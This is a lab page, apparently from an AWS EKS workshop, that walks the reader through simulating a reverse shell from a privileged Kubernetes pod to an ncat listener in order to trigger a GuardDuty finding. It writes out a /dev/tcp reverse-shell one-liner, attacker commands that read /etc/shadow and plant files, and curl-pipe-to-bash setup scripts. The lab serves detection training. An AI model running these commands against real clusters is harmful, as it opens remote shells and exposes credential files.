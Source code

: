```yaml
---
title: "Reverse Shell"
sidebar_position: 432
---
```


In this last lab exercise for Amazon GuardDuty findings, you'll simulate a reverse shell attack in your EKS Cluster environment.

This one is a little tricky and since we want to run it as a simulation in a controlled environment, it will require you to create another Cloud9 environment that will serve as the offensor instance. To do that, open your [CloudShell](https://console.aws.amazon.com/cloudshell/home), and run the following command.

```bash
$ curl -fsSL https://raw.githubusercontent.com/aws-samples/eks-workshop-v2/main/lab/scripts/rshell-setup.sh | bash
```

The command output, will show another Cloud9 IDE address, copy and paste it in another browser tab, or if you prefere, open another tab in your browser and go to the [Amazon Cloud9 Console](https://console.aws.amazon.com/cloud9control/home). You should se another IDE environment with the nama `rshell`, click on the **Open** link next to the IDE environment name.

On the Terminal of the new environment, you'll need to get the IP Address of the Cloud9 instance, install and run the `ncat` tool to simulate an attack tentative.

```bash
$ curl http://169.254.169.254/latest/meta-data/local-ipv4
```

Note the IP Address on the output.

```bash
$ sudo yum install ncat -y
$ ncat -nvlp 6666
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Listening on :::6666
Ncat: Listening on 0.0.0.0:6666
```

This last command will start listening all connections on port 6666.

Now, go back to the `eks-workshop-ide` terminal, and run a new Pod that will emulate the compromised workload. Replace the `<RSHELL_CLOUD9_IPADDRESS>` with the IP address noted in the earlier step.

```bash
$ kubectl run -ti --rm --restart=Never --image=ubuntu --privileged rshell -- /bin/bash -c "bash -i >& /dev/tcp/<RSHELL_CLOUD9_IPADDRESS>/6666 0>&1"
If you don't see a command prompt, try pressing enter.
``` 

Return to the `rshell` IDE, and you will be able to see that a new connection from offensor instance to the Pod, and you are able to run commands to the newly created Pod inside your Amazon EKS Cluster. Try a few privileged commands like below.

```bash
Ncat: Connection from 10.42.129.208.
Ncat: Connection from 10.42.129.208:39692.
$ cat /etc/shadow
$ chroot /
$ touch /etc/dangerousfile
$ mkdir /bin/dangerousfolder
$ exit
$ ls /etc/danger*
```

Notice that the terminal where you started the Pod is completely frozen, and you are not able to run commands. To end the session, hit `CTRL+C` / `CMD+C`, or type `exit` on the `rshell` IDE. The Pod on the `eks-workshop-ide` will be terminated and you will be able to take control again.

On the `rshell` Cloud9 IDE.

```bash
$ exit

```

On the `eks-workshop-ide` Cloud9 IDE, you'll see the following message `pod "rshell" deleted`.


If you open the [GuardDuty Findings console](https://console.aws.amazon.com/guardduty/home#/findings), you will see the `Execution:Runtime/ReverseShell` finding.

![](assets/reverse-shell.png)


To clean up, run the following command on your [CloudShell](https://console.aws.amazon.com/cloudshell/home).

```bash
$ curl -fsSL https://raw.githubusercontent.com/aws-samples/eks-workshop-v2/main/lab/scripts/rshell-cleanup.sh | bash
```